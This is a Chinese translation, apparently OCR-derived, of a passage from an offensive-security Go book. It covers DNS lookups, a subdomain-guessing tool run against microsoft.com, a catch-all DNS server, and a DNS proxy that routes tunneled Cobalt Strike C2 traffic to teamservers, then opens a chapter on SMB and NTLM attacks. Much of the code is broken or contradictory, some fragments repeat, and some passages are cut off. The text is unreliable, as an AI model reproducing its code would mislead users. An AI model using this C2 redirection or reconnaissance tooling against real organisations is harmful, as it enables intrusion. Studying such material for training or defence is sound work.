首先创建一个新的 `Msg` ①，然后调用 `fqdn(string)` 将域名转换为可以与 `DNS` 服务器交换的 `FQDN` ②。接下来，通过调用 `SetQuestion(string, uint16)` 修改 `Msg` 的内部状态，并使用 `TypeA` 值表示你要查找 `A` 记录的意图 ③。（这是包中定义的一个常量 `const`。你可以在包文档中查看包中支持的其他值。）最后，调用一次 `Exchange(*Msg, server)` ④，将消息发送到提供的服务器。

如你所见，服务器返回的消息包含答案。在处理答案之前，让我们看看 `DNS` 是什么样的。使用 `Wireshark` 或 `tcpdump` 等数据分析器，你应该看到查询输出。例如：

```bash
$ tcpdump -i eth0 -n
```

显示了问题和答案。为了处理答案，让我们看看结构是如何定义的：


```go
type Msg struct {
    MsgHdr
    Compress bool `json:"compress"` // 如果为 true，消息将会被压缩
    Question // 持有问题的部分的 RR
    Answer []Resource // 持有答案部分的 RR
    Ns []Resource // 持有权威部分的 RR
    Extra []Resource // 持有附加部分的 RR
}
```

如你所见，`Msg` 结构整合了所有问题和答案。`Msg` 类型具有多种方法使数据处理变得更容易。例如，`Question` 切片通过 `SetQuestion()` 修改。你可以直接使用 `append()` 修改此切片并获得相同的结果。`Answer` 切片响应查询类型为 `RR`。

## 处理答案

`Exchange` 返回的值为 `(*Msg, error)`。返回错误符合 Go 的惯用法。

```go
package main

import (
    "fmt"

    "github.com/miekg/dns"
)

func main() {
    var msg dns.Msg
    fqdn := dns.Fqdn("stackitan.com")
    msg.SetQuestion(fqdn, dns.TypeA)
    if in, err := dns.Exchange(&msg, "8.8.8.8:53") {
        if err != nil {
            panic(err)
        }
        if len(in.Answer) < 1 {
            fmt.Println("No records")
            return
        }
        for _, answer := range in.Answer {
            if a, ok := answer.(*dns.A); ok {
                fmt.Println(a.A)
            }
        }
    }
}
```

列表 5-2：处理 DNS 答案（`ch-5/get_all_a/main.go`）返回自

我们的示例从存储 `Exchange` 返回的值开始，检查是否存在错误，如果是，则调用 `panic()` 停止程序 ①。接下来，验证 `Answer` 切片的长度是否至少 ②，如果不是，则指示没有记录并立即返回——毕竟，在某些情况下会出现无法解析域名的情况。

`RR` 类型是一个接口，仅定义了两个方法，且这两个方法都不允许访问答案中存储的 IP 地址。要访问这些 IP 地址，你需要执行类型断言（type assertion），以将数据创建为你所需的类型实例。

首先，遍历所有的答案。接下来，对答案进行类型断言，以确保你正在处理的是一个 `*dns.A` 记录 ③。在执行此操作时，你可以接收两个值：一个是断言成功的数据，另一个是表示断言是否成功的布尔值 ④。检查断言是否成功后，打印 `a.A` 中存储的 IP 地址 ⑤。虽然类型是 `net.IP`，但它确实实现了 `String()` 方法，所以你可以轻松地打印它。

花时间研究这段代码，修改 DNS 查询和交换以搜索额外的记录。类型断言可能让你感到陌生，但它与其它语言中的类型转换（type casting）的概念相似。

## 枚举子域名

现在你已经知道如何作为一个 DNS 客户端使用 Go，你可以创建实用的工具了。在本节中，你将创建一个子域名猜解工具。猜测目标的子域名和其他 DNS 记录是侦察中的基础步骤，因为你知道的子域名越多，尝试攻击的机会就越大。你将为你的工具提供一个候选词列表（字典文件），用于猜解子域名。

通过 DNS，你可以以操作系统处理数据包的最快速度发送请求。虽然语言和运行时不会成为瓶颈，但目标服务器会。在这里，控制程序的并发性将非常重要，就像在之前的章节中一样。

首先，在 `GOPATH` 中创建一个名为 `subdomain_guesser` 的新目录，并创建一个新文件 `main.go`。接下来，当你开始编写新工具时，必须决定程序将接受哪些参数。这个子域名猜解程序将接受多个参数，包括目标域名、包含待猜子域名的文件名、使用的 DNS 服务器以及要启动的工作线程数量。Go 提供了一个实用的用于解析命令行选项的包 `flag`，你将用它来处理命令行参数。虽然我们没有在所有的代码示例都未使用 `flag` 包，但我们选择在此案例中使用它来演示更健壮、更优雅的参数解析。列表 5-3 显示了我们的参数解析代码。

```go
package main

import (
    "flag"
)

func main() {
    var (
        flDomain    = flag.String("domain", "", "The domain to perform guessing against.")
        Wordlist    = flag.String("wordlist", "", "The wordlist to use for guessing.")
        WorkerCount = flag.Int("c", 100, "The amount of workers to use.")
        ServerAddr  = flag.String("server", "8.8.8.8:53", "The DNS server to use.")
    )
    flag.Parse()
}
```

列表 5-3: 构建一个子域名猜解器 (`/ch-5/subdomain_guesser/main.go`)

首先，声明 `flDomain` 变量的代码行 1 接收一个字符串参数，并为 `domain` 选项解析的内容声明了一个空字符串默认值。下一行相关的代码是 `flWorkerCount` 变量的声明 2。你需要提供一个整数值作为命令行选项。在这种情况下，这个值可能太保守了，因此测试时请随时增加该数量。最后，调用 `flag.Parse` 3 将通过用户提供的输入来填充你的变量。

> 注意
>
> 你可能注意到这个示例违背了 Unix 原则，因为它定义了并非可选的可选参数。请随时在此处使用 `os.Args`。我们只是觉得让 `flag` 包完成所有工作更简单快速。

如果你尝试构建此程序，应该收到一个关于未使用变量的错误。在调用 `flag.Parse()` 之后添加以下代码。此添加会将变量连同代码打印到 `stdout`，确保用户提供了 `-domain` 和 `-wordlist`：

```go
if *flDomain == "" || *Wordlist == "" {
    fmt.Println("-domain and -wordlist are required")
    os.Exit(1)
}
fmt.Println(*WorkerCount, *ServerAddr)
```

为了允许你的工具报告哪些名称是可以解析的及其对应的 IP 地址，你需要创建一个结构体来存储这些信息。在 `main()` 函数上方定义它：

```go
type result struct {
    IPAddress string
    Hostname  string
}
```

该工具将创建两个函数来执行查询：一个用于 A 记录，另一个用于 CNAME 记录。这两个函数都接受 FQDN 作为第一个参数，并将 DNS 服务器地址作为第二个参数。每个函数都应该返回一个字符串切片和一个错误。将函数保持尽可能小并很好地完成一件事是一个好主意。这种开发风格允许你在未来编写更小的测试。

## 查询 A 和 CNAME 记录

你需要创建两个函数来执行查询：一个用于 A 记录，另一个用于 CNAME 记录。两个函数都接受 FQDN 作为第一个参数，DNS 服务器地址作为第二个参数。每个函数都应该返回一个字符串切片和一个错误。将这些函数添加到你在列表 5-3 中开始定义的代码中。这些函数应该定义在 `main()` 之外。

```go
func lookupA(fqdn, serverAddr string) ([]string, error) {
    var m dns.Msg
    var ips []string
    m.SetQuestion(dns.FQDN(fqdn), dns.TypeA)
    err := dns.Exchange(&m, serverAddr)
    if err != nil {
        return nil, err
    }
    if len(m.Answer) < 1 {
        return ips, errors.New("no answer")
    }
    for _, answer := range m.Answer {
        if a, ok := answer.(*dns.A); ok {
            ips = append(ips, a.String())
        }
    }
    return ips, nil
}

func lookupCNAME(fqdn, serverAddr string) ([]string, error) {
    var m dns.Msg
    var fqdns []string
    m.SetQuestion(dns.FQDN(fqdn), dns.TypeCNAME)
    err := dns.Exchange(&m, serverAddr)
    if err != nil {
        return fqdns, err
    }
    if len(m.Answer) < 1 {
        return fqdns, errors.New("no answer")
    }
    for _, answer := range m.Answer {
        if c, ok := answer.(*dns.CNAME); ok {
            fqdns = append(fqdns, c.Target)
        }
    }
    return fqdns, nil
}
```

这段代码看起来应该熟悉，因为它与你在第一部分编写的代码几乎相同。第一个函数 `lookupA` 返回 IP 地址列表，而 `lookupCNAME` 返回主机名列表。CNAME，即别名，记录将一个 FDN 指向另一个作为第一个的别名。例如，假设 `example.com` 的所有者想要托管一个 WordPress 托管服务。该服务可能为其所有用户拥有数百个 IP 地址，提供单个站点的 IP 地址是不可行的。WordPress 托管服务可以提供一个别名（CNAME），`example.com` 的所有者可能指向 `someserver.hostingcompany.org`，后者有一个 A 记录指向一个 IP 地址。这允许 `example.com` 的所有者在他们没有信息的服务器上托管站点。

通常这意味着你需要跟踪 CNAME 链以最终找到有效的 A 记录。我们之所以这么说是因为存在无限的 CNAME 链。将函数放在以下代码的 `main()` 之外，查看如何使用 CNAME 跟踪有效的 A 记录：

```go
func lookup(fqdn, serverAddr string) []result {
    var results []result
    var fqdn = fqdn // 不要修改原始值
    for {
        cnames, err := lookupCNAME(fqdn, serverAddr)
        if err == nil && len(cnames) > 0 {
            fqdn = cnames[0]
            continue // 我们必须处理下一个 CNAME。
        }
        ips, err := lookupA(fqdn, serverAddr)
        if err != nil {
            break // 此主机没有 A 记录。
        }
        for _, ip := range ips {
            results = append(results, result{IPAddress: ip, Hostname: fqdn})
        }
        break // 我们已经处理了所有结果。
    }
    return results
}
```

没有发生错误，且至少有一个 CNAME 返回了 4，将 `fqdn` 设置为返回的 CNAME 5，使用 `continue` 回到循环开始处 6。此过程允许你追踪 CNAME 的足迹，直到发生失败。如果发生失败（表示你已到达链的末尾），你可以查找 A 记录 7；但如果发生错误（表示记录查找出现问题），则尽早退出循环。如果存在有效的 A 记录，则将返回的每个 IP 地址追加到你的结果切片中 8 并跳出循环 9。最后，将结果返回给调用者。

我们与名称解析相关的逻辑似乎是正确的。然而，你还没有考虑到性能问题。让我们让示例程序易于函数调用，以便你添加并发处理。

## 传递给工作函数

你将创建一个 goroutine 池，并将工作传递给一个工作函数，该函数执行一个单元的工作。你将通过使用通道来协调工作分配和结果收集。回想一下，你在第 2 章构建并发端口扫描器时也做过类似的操作。

继续扩展列表 5-3 中的代码。首先，创建 `worker()` 函数并将其放在 `main()` 外部。该函数接受三个通道参数：一个用于工作线程信号其是否已关闭的通道，一个用于接收工作域名的通道，以及一个用于发送结果的通道。该函数还需要一个最后的字符串参数来指定使用的 DNS 服务器。以下代码显示了我们的 `worker()` 函数示例：

```go
type empty struct{}
```

```go
func worker(tracker chan empty, fqdns chan string, gather chan []result, serverAddr string) {
    for fqdn := range fqdns {
        results := lookup(fqdn, serverAddr)
        if len(results) > 0 {
            gather <- results
        }
    }
    var e empty
    tracker <- e
}
```

在引入 `worker()` 函数之前，先定义类型 `empty` 以跟踪工作线程何时完成。这是一个没有任何字段的结构体；你使用空结构体是因为它的大小为 0 字节，使用时几乎不会产生影响或开销。然后，在 `worker()` 函数中，遍历用于传入 FQDN 的域名通道。在从 `lookup` 函数中获取结果并检查确保有一个结果后，将结果发送到 `gather` 通道，该通道会将结果汇集回 `main()`。当通道关闭导致工作循环退出后，向 `tracker` 通道发送一个空结构体，以通知调用者所有工作均已完成。在 `tracker` 通道上发送空结构体是重要的最后一步。如果不这样做，将会产生竞态条件，因为调用者可能会在收集结果之前就退出。

由于此时前提结构已经就绪，让我们重新关注 `main` 函数，以完成我们在列表 5-3 中开始的程序。定义存储结果的变量和传递给 `worker()` 的通道。然后，将以下代码追加到 `main()`：

```go
var results []result
fqdns := make([]chan string, *flWorkerCount)
gather := make(chan []result)
tracker := make(chan empty)
```

使用用户提供的工作线程数量创建 `fqdns` 通道创建一个缓冲通道。这允许工作线程启动得快一点，因为通道在阻塞发送者之前可以持有多条消息。

### 使用 bufio 创建扫描器

接下来，打开用户提供的文件作为单词列表消耗。在文件打开后，使用 `bufio` 包创建一个新的扫描器。该扫描器允许你一次读取文件的一行。将以下代码追加到 `main()`：

```go
fh, err := os.Open(*Wordlist)
if err != nil {
    panic(err)
}
defer fh.Close()
scanner := bufio.NewScanner(fh)
```

如果返回的错误不为 `nil`，在这里使用了内置函数 `panic()`。当你编写他人将使用的包或程序时，你应该考虑以一种更整洁的格式呈现这些信息。

你将使用新的扫描器从提供的单词列表中获取一行文本，并将该文本与用户提供的域名组合创建一个 FQDN。你将将结果发送到 `fqdns` 通道。但你必须先启动工作线程。这个顺序非常重要。如果你在启动工作线程之前将工作发送到 `fqdns` 通道，缓冲通道最终会变满，导致你的生产者阻塞。你将在 `main()` 函数中添加以下代码。其目的是启动工作线程 goroutine、读取你的输入文件并在 `fdns` 通道上运行。

```go
for i := 0; i < *flWorkerCount; i++ {
    go worker(tracker, fdns, gather, *ServerAddr)
}
```

```go
for scanner.Scan() {
    fdns := fmt.Sprintf("%s.%s", scanner.Text(), *flDomain)
}
```

使用这种模式创建工作线程 ❶ 看起来与你构建并发端口扫描器时的操作相似：你使用了一个 `for` 循环，直到达到用户提供的数量。为了获取文件中的每一行，在循环 ➁ 中使用了 `scanner.Scan()`。该循环在文件中没有更多行可读时结束。要要从已扫描的行中获取文本的字符串表示，使用 `scanner.Text()` ❸。

工作已经启动。

### 收集并显示结果

为了完成工作，首先启动一个匿名 goroutine 来显示结果。

```go
go func() {
    for results := range gather {
        // process results
    }
}()
```

（提供的文本在 OCR 源文件中在此处突然中断了。）


```go
ips, err := lookupA(cfdn, serverAddr)
if err != nil {
    break // 此主机没有 A 记录。
}
for _, ip := range ips {
    results = append(results, result{IPAddress: ip, Hostname: fqdn})
    break // 我们已经处理了所有结果。
}
return results
```

```go
func worker(tracker empty, fqdns string, gather chan []result,
    serverAddr string) {
    for fqdn := range fqdns {
        results := lookup(fqdn, serverAddr)
        if len(results) > 0 {
            gather <- results
        }
    }
    var e empty
    tracker <- e
}
```

```go
type empty struct {}

type result struct {
    IPAddress string
    Hostname string
}
```

```go
func main() {
    var (
        flDomain = flag.String("domain", "", "The domain to perform guessing
    against.")
        flWordlist = flag.String("wordlist", "", "The wordlist to use for guessing.")
        flWorkerCount = flag.Int("c", 100, "The amount of workers to use.")
        flServerAddr = flag.String("server", "8.8.8.8:53", "The DNS server to use.")
    )
    flag.Parse()
}
```

```go
if *flDomain == "" || *flWordlist == "" {
 fmt.Println("--domain and -wordlist are required")
 os.Exit(1)
}
```

```go
var results []Result

fqdns := make(chan string, *flWorkerCount)
gather := make(chan []result)
tr := make(chan empty)
```

```go
fh, err := os.Open(*flWordlist)
if err != nil {
 panic(err)
}
defer fh.Close()
scanner := bufio.NewScanner(fh)
```

```go
for I := 0; i < *flWorkerCount; i++ {
 go worker(fqdns, gather, *flServerAddr)
}
```

```go
for scanner.Scan() {
 fqdns <- fmt.Sprintf("%s.%s", scanner.Text(), *flDomain)
}
// 注意：我们可以检查 scanner.Err()
```

```go
go func() {
 for r := range gather {
 results = append(results, r.I)
}
 var e empty
 tracker <- e
}()
```

```go
close(fqdns)
for i := 0; i < *flWorkerCount; i++ {
 <-tracker
}
```

```go
close(gather)
<-tracker
w := tabwriter.NewWriter(os.Stdout, 0, 8, ' ', 0)
for _, r := range results {
    fmt.Fprint(w, "%s\t%s\n", r.Hostname, r.IPAddress)
}
w.Flush()
```

### 列表 5-4: 完整的子域名猜测程序 (`/ch-5/subdomain_guesser/main.go`)

你的子域名猜测程序已经完成！你应该能够构建并执行你这个崭新的子域名猜测工具了。尝试使用开源仓库中的单词列表或字典文件进行测试（你可以通过 Google 搜索找到很多）。尝试调整工作线程的数量；你可能会发现，如果运行太快，将会得到不一致的结果。以下是作者系统使用 100 个工作线程的次运行示例：

```
$ wc -l namelist.txt
1909 namelist.txt
$ ./subdomain_guesser -domain microsoft.com -wordlist namelist.txt -c 1000
```

| 主机名 | IP 地址 |
| :--- | :--- |
| `ajax.microsoft.com` | `72.21.81.200` |
| `buy.microsoft.com` | `157.56.65.82` |
| `news.microsoft.com` | `192.230.67.121` |
| `applications.microsoft.com` | `168.62.185.179` |
| `sc.microsoft.com` | `157.55.99.181` |
| `open.microsoft.com` | `23.99.65.65` |
| `ra.microsoft.com` | `131.107.98.31` |
| `ris.microsoft.com` | `213.199.139.250` |
| `smtp.microsoft.com` | `205.248.106.64` |
| `wallet.microsoft.com` | `40.86.87.229` |
| `jp.microsoft.com` | `134.170.185.46` |
| `ftp.microsoft.com` | `134.170.188.232` |
| `develop.microsoft.com` | `104.43.195.251` |

```
/subdomain_guesser -domain microsoft.com -wordlist namelist.txt -c 1000 0.23snuser 0.67s system 22% cpu 4.040 total
```

你会看到输出显示了几个 FDN 及其对应的 IP 地址。根据输入的单词列表，我们能够猜出每个结果的子域名值。现在你已经构建了自己的子域名猜测工具。

## DNS 服务器

你会看到输出显示了几个 FDN 及其 IP 地址。根据输入的单词列表，我们能够猜出每个结果的子域名值。现在你已经构建了自己的子域名猜测工具。

（此处略）

```go
),
A: net.ParseIP("127.0.0.1").To4(),
)
4 resp.Answer = append(resp.Answer, &a)
5 w.WriteMsg(&resp)
)}
6 log.Fatal(dns.ListenAndServe(":53", "udp", nil))
}
```

### 列表 5-5: 编写 DNS 服务器 (`/ch-5/a_server/main.go`)

服务器代码从调用 `HandleFunc()` ① 开始；它看起来非常像 `net/http` 包。该函数的第一个参数是用于匹配的查询模式。你将使用此模式告知 DNS 服务器哪些请求将由提供的函数处理。通过使用句号 `.`，你是在告诉服务器第二个参数中提供的函数将处理所有请求。

传递给 `HandleFunc()` 的下一个参数是一个包含处理程序逻辑的函数。该函数接收两个参数：`ResponseWriter` 和请求本身。在处理程序内部，你首先创建一个新消息并设置处理程序 ②。接下来，你为每个问题创建一个答案，使用实现 `RR` 接口的 `A` 记录。这部分将取决于你正在寻找的答案类型 ③。使用 `append()` 将 `A` 记录的指针添加到响应的 `Answer` 字段中 ④。响应完成后，你可以使用 `w.WriteMsg()` ⑤ 将此消息写入调用客户端。最后，调用 `ListenAndServe()` ⑥ 启动服务器。此代码将所有请求解析到 IP 地址 `127.0.0.1`。

一旦服务器编译并启动，你就可以使用 `dig` 对其进行测试。确认你查询的主机解析到 `127.0.0.1`。这表明它正按设计工作。

```
$ dig @localhost facebook.com

; <<DIG 9.10.3-P4-Ubuntu <<@localhost facebook.com
;; (1 server found)
;; global options: +cmd
;; Got answer:
;;>>HEADER<< -- opcode: QUERY, status: NOERROR, id: 33594
;; flags: qr;; ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
facebook.com.       IN  A

;; ANSWER SECTION:
facebook.com.      0  IN  A  127.0.0.1

;; Query time: 0 msec
;; SERVER: 127.0.0.1#53(127.0.0.1)
;; WHEN: Sat Dec 19 13:13:45 MST 2020
;; MSG SIZE rcvd: 58
```

## 创建 DNS 服务器和代理

DNS 隧道（DNS tunneling）是一种数据外泄技术，可以作为在限制出站控制的网络中建立 C2（命令与控制）通道极极方法。通过使用权威 DNS 服务器，攻击者可以通过组织自身的 DNS 服务器路由并连接到互联网，而无需直接与自己的基础设施建立连接。虽然速度较慢，但很难进行防御。多个开源和专有载荷（payloads）都可执行 DNS 隧道，其中之一就是 Cobalt Strike 的 Beacon。在本节中，你将编写自己的 DNS 服务器和代理，并学习如何使用 Cobalt Strike 多复用 DNS 隧道 C2 载荷。

### 配置 Cobalt Strike

如果你用过 Cobalt Strike，你可能注意到默认情况下，`teamserver` 监听在 53 端口。由于由于，并且根据文档的建议，一个系统上应只运行一个服务器，保持一对一的比例。这对于中大型团队来说可能会出现问题。例如，如果你有 20 个团队对 20 个独立的组织进行攻击性行动，那么建立 20 个能够运行 `teamserver` 的系统可能会很困难。这个问题并不是 Cobalt Strike 和 DNS 所有的；它也适用于其他协议，例如 Metasploit 和 Empire。尽管你可以在多个唯一端口（如 80 和 443）上建立监听器，但外泄流量的概率更大。因此，问题变成了：如何让其他团队共享单个端口并路由到多个监听器？答案是使用代理，当然。

> 注意：在实际行动中，你可能希望具有多层伪装、抽象化并掩蔽 `teamserver` 的位置。这可以通过使用各种提供商的 UDP 和 TCP 转发来实现。让 `teamserver` 运行在独立的系统上，可能需要一个拥有充足内存和 CPU 性能的大系统。让我们在 Docker 容器中运行两个 Cobalt Strike `teamserver` 实例。这允许服务器监听 53 端口，并让每个 `teamserver` 拥有它们自己的系统，并因此拥有它们自己的 IP 栈。在开始之前，从 `https://trial.cobaltstrike.com/` 下载 Cobalt Strike 的试用版本。按照安装说明后，你的下载目录中应该有一个新的 tarball 文件。你现在准备好启动 `teamservers` 了。

在终端窗口执行以下命令以启动第一个容器：

```bash
docker run --rm -it -p 2020:5053 -p 50051:5053 -v /data /data
```



### 创建 DNS 代理

你在整个章节中一直使用的 `DNS` 包使得编写中间函数变得简单，你已经在之前的章节中用过其中一些函数。你的代理需要能够执行以下操作：

- 创建一个处理函数来接收传入的查询
- 检查查询中的问题并提取域名
- 识别与该域名对应的上游 DNS 服务器
- 与上游 DNS 服务器交换问题并将响应写入客户端

你的处理函数可以写成将 `attacker1.com` 和 `attacker2.com` 作为静态值，但这是不可维护的。相反，你应该从程序的外部资源查找记录，例如数据库或配置文件。以下代码通过使用 `domain.server` 格式来实现这一点，该格式用逗号分隔传入的域名和上游服务器。要启动你的程序，请创建一个解析包含此类格式记录文件的函数。列表 5-6 中的代码应该写在一个名为 `main.go` 的新文件中。

```go
package main

import (
	"bufio"
	"fmt"
	"os"
	"strings"
)

func parse(filename string) (map[string]string, error) {
	records := make(map[string]string)
	fh, err := os.Open(filename)
	if err != nil {
		return records, err
	}
	defer fh.Close()
	scanner := bufio.NewScanner(fh)
	for scanner.Scan() {
		line := scanner.Text()
		parts := strings.Split(line, ",", 2)
		if len(parts) < 2 {
			return records, fmt.Errorf("%s is not a valid line", line)
		}
		records[parts[0]] = parts[1]
	}
	return records, scanner.Err()
}

func main() {
  records, err := parse("proxy.config")
  if err != nil {
    panic(err)
  }
  fmt.Printf("%+v\n", records)
}
```

### 列表 5-6: 编写 DNS 代理 (`/ch-5/dns_proxy/main.go`)

通过这段代码，你首先定义了一个解析包含配置信息文件并返回 `map[string]string` 的函数。你将该 map 来查找传入的域名并检索上游服务器。

在终端窗口中输入以下代码中的第一个命令，这将 `echo` 之后的字符串写入 `proxy.config` 文件。接下来，你应该编译并运行 `dns_proxy.go`。

```bash
$ echo 'attacker1.com,127.0.0.1:2020
nattacker2.com,127.0.0.1:2021' > proxy.config
$ go build
$ ./dns_proxy
map[attacker1.com:127.0.0.1:2020 attacker2.com:127.0.0.1:2021]
```

你看到这里了吗？输出是 teamserver 域名与 Cobalt Strike DNS 服务器监听的端口之间的映射。记得，你将端口 2020 和 2021 映射到你两个独立 Docker 容器的 53 端口。这是一种为你的工具创建基础配置的快速方法，你不需要将其存储在数据库或其他持久化存储机制中。

定义好记录 map 后，你现在可以编写处理函数了。让我们完善你的代码，在 `main()` 函数中添加以下内容。它应该紧跟在解析配置文件的之后。


```go
dns.HandleFunc(".", func(w dns.ResponseWriter, req *dns.Msg) {
  if len(req.Question) < 1 {
    dns.HandleFailed(w, req)
    return
  }
  name := req.Question[0].Name
  parts := strings.Split(name, ",")
  if len(parts) > 1 {
    name = strings.Join(parts[len(parts)-2:], ",")
  }
  match, ok := records[name]
  if !ok {
    dns.HandleFailed(w, req)
    return
  }
  resp, err := dns.Exchange(req, match)
  if err != nil {
    dns.HandleFailed(w, req)
    return
  }
  if err := w.WriteMsg(resp); err != nil {
    dns.HandleFailed(w, req)
    return
  }
}
log.Fatal(dns.ListenAndServe(":53", "udp", nil))
```

首先，使用传入的请求调用 `HandleFunc()`，并定义一个匿名函数，即你不打算重用的函数（它没有名称）。当你没有打算重用某块代码时，这是一个很好的设计。如果你打算重用它，应该将其声明并作为命名函数调用。接下来，检查传入的问题切片以确保至少提供了一个问题，如果没有，调用 `HandleFailed()` 并返回以提前退出函数。这种模式在整个处理程序中都在使用。如果存在一个问题，你就可以安全地从第一个问题中提取请求的名称。

在修改可能被并发 goroutine 使用的 map 时，你需要使用互斥锁（mutex）来控制访问.¹互斥锁可以防止敏感代码块的并发执行，允许你锁定和解锁访问权限。在这种情况下，你可以使用 `RWMutex`①，它允许任何 goroutine 进行读取而无需锁定其他 goroutine，但在发生写入时会锁定其他 goroutine。或者，在你的资源上不使用互斥锁实现 goroutines 会导致交织，这可能导致竞态条件或更严重的结果。

在处理程序中访问 map 之前，调用 `RLock`② 读取一个值以进行匹配；读取完成后，调用 `RUnlock`③ 释放 map 以供下一个 goroutine 使用。在新的新 goroutine ④ 中运行的匿名函数中，你开始了监听信号的过程。这是通过一个类型为 `os.Signal` 的通道 ⑤ 完成的，该通道在 `signal.Notify()`⑥ 调用中提供，并带有供 `SIGUSR1` 通道消耗的字面量信号，该通道是留作任意用途的信号。在对信号的循环中，使用 switch 语句 ⑦ 来识别接收到的信号类型。你只配置了监控单个信号，但未来你可能会更改此，因此这是一个恰当的设计模式。最后，在重新加载运行中的配置之前使用 `Lock`⑧ 来阻塞任何可能尝试从记录 map 读取的 goroutine。使用 `Unlock()`⑨ 继续执行。

让我们通过启动代理并在现有的 `teamserver` 中创建一个新的监听器来测试此程序。使用域名 `attacker3.com`。在代理运行时，修改 `proxy.config` 文件并添加一条指向你监听器的新行。你可以使用 `kill` 向进程发送信号以重加载配置，但首先使用 `ps` 和 `grep` 识别进程 ID。

```bash
$ ps -ef | grep proxy
$ kill -10 PID
```

代理应该重新加载。通过创建并执行一个新的无文件可执行文件来测试它。代理现在应该可以工作并准备好投入生产。

## 总结

尽管本章到此结束，但你的代码仍有无限可能。例如，Cobalt Strike 可以以混合方式运行，使用 HTTP 和 DNS 执行不同的操作。要实现这一点，你需要修改代理以响应监听器的 IP A 记录；你还需要将额外的端口转发到你的容器中。在下一章中，你将深入研究 SMB 和 NTLM 这种错综复杂的领域。现在，去征服世界吧！

# 6

## 与 SMB 和 NTLM 交互


在之前的章节中，你检查了用于网络通信的各种常用协议，包括原始 TCP、HTTP 和 DNS。这些协议中的每种对于攻击者来说都有有趣的用例。尽管存在大量其他网络协议，但我们将通过检查服务器消息块（SMB）来结束对网络协议的讨论，SMB 被认为在 Windows 渗透后阶段是最有用的协议。

SMB 可能是你在书中看到的最复杂的协议。它有多种用途，但 SMB 通常用于跨网络共享文件、打印机和串口端口等资源。对于具有攻击性思维的读者来说，SMB 允许通过命名管道（named pipes）在分布式节点之间进行进程间通信。换句话说，你可以在远程主机上执行任意命令。这本质上是 `PsExec`（一个在本地执行远程命令的 Windows 工具）的工作原理。

SMB 还有许多其他有趣的用例，特别是由于它处理 NT LAN Manager（NTLM）认证的方式，这是一种在 Windows 网络上广泛使用的挑战-响应安全协议。这些用例包括远程密码猜测、基于哈希的认证（或哈希传递）、SMB 中继攻击以及 `NBNS/LLMNR` 欺骗。涵盖这些攻击中的每一个都需要一整本书。

我们将从详细解释如何在 Go 中实现 SMB 开始本章。接下来，你将利用 SMB 包执行远程密码猜测，使用哈希传递技术仅通过密码的哈希值成功通过身份验证，并破解密码的 `NTLMv2` 哈希值。

## SMB 包

在编写本文时，Go 中还没有官方的 SMB 包，但我们创建了一个包，你可以在以下地址找到该包的针对书友友版本：https://github.com/blackhat-go/bhg/blob/master/ch-6/smb/。虽然我们不会在本章中向你展示该包的每一个细节，但你将学习解释 SMB 规范的基础知识，以便创建必要的二进制通信来“说 SMB”，这与之前的章节不同，之前你只是复用了合规的包。你还将学习如何使用反射（reflection）技术在运行时检查接口数据类型，并定义任意的 Go 结构体字段标签来序列化和反序列化复杂的任意数据，同时保持未来消息结构和数据类型的可扩展性。

虽然我们构建的 SMB 库仅允许基本的客户端通信，但其代码库相当详尽。

你将看到来自 SMB 包的相关示例，以便你完全理解通信和任务（如 SMB 认证）是如何工作的。

## 理解 SMB

SMB 是一种应用层协议，类似于 HTTP，允许网络节点之间相互通信。与使用 ASCII 可读文本通信的 HTTP 1.1 不同，SMB 是一种二进制协议，它结合了固定长度和可变长度、位置和小端（little-endian）字段。SMB 有多个版本，也称为方言（dialects）——即版本 2.0、2.1、3.0、3.0.2 和 3.1.1。每种方言的性能都优于前任。由于处理方式和要求在不同方言之间有所不同，客户端和服务器必须提前约定使用哪种方言。它们在初始消息交换期间完成此。

通常，Windows 系统支持多种方言，并选择客户端和服务器都支持的最新方言。微软提供了表 6-1，显示了哪些 Windows 在协商过程中选择了哪种方言。（Windows 10 和 WS 2016——图中未显示——协商的是 SMB 版本 3.1.1。）

**表 6-1**: Windows 版本协商的 SMB 方言

| 操作系统 | Windows 8.1 WS | Windows 8 WS | Windows 7 WS | Windows Vista | 之前的版本 |
| --- | --- | --- | --- | --- | --- |
| Windows 8.1 | SMB 3.02 2012 R2 | SMB 3.0 2012 | SMB 2.1 2008 R2 | SMB 2.0 2008 | SMB 1.0 |
| Windows 8 WS 2012 | SMB 3.0 | SMB 3.0 | SMB 2.1 | SMB 2.0 | SMB 1.0 |
| Windows 7 WS 2008 R2 | SMB 2.1 | SMB 2.1 | SMB 2.1 | SMB 2.0 | SMB 1.0 |
| Windows Vista WS 2008 | SMB 2.0 | SMB 2.0 | SMB 2.0 | SMB 2.0 | SMB 1.0 |
| 之前的版本 | SMB 1.0 | SMB 1.0 | SMB 1.0 | SMB 1.0 | SMB 1.0 |

在本章中，你将使用 SMB 2.1 方言，因为大多数现代 Windows 版本都支持它。

## 理解 SMB 安全令牌

